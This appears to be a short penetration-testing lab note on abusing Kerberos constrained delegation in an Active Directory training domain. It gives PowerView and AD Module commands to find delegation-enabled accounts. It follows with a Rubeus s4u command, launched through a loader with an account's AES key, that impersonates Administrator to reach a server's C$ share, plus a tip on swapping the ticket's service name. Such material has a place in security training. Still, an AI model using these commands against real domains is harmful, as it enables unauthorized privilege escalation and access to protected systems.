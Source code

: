 To abuse constrained delegation in above scenario, we need to have access to the websvc account. If we have access to that account, it is possible to access the services listed in `msDS-AllowedToDelegateTo` of the `websvc` (web service on web server) account as **ANY user**

Find users and computers with constrained delegation enabled (PowerView + AD Module)
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne
"$null"} -Properties msDS-AllowedToDelegateTo
```

**COMPROMISE THE WEB SERVICE ACCOUNT AND RUN THE FOLLOWING AS IT**

Request a `TGT` and `TGS` and impersonate any user
```powershell
.\Loader.exe -path .\Rubeus.exe -args s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL" /ptt
```

Test
```powershell
dir \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```

 
> [!NOTE] **NOTE**
> You can edit what services the machine/user account can access if you have `GenericAll/Write` rights to the first hop
> 
> **THE SPN VALUE IN THE TGS IS CLEAR-TEXT WHICH MEANS THAT WE CAN CHANGE THE ALLOWED `CIFS/dcorp-mssql.dollarcorp.moneycorp.local` TO `HTTP/dcorp-mssql.dollarcorp.moneycorp.local` IF WE WANTED TO** 



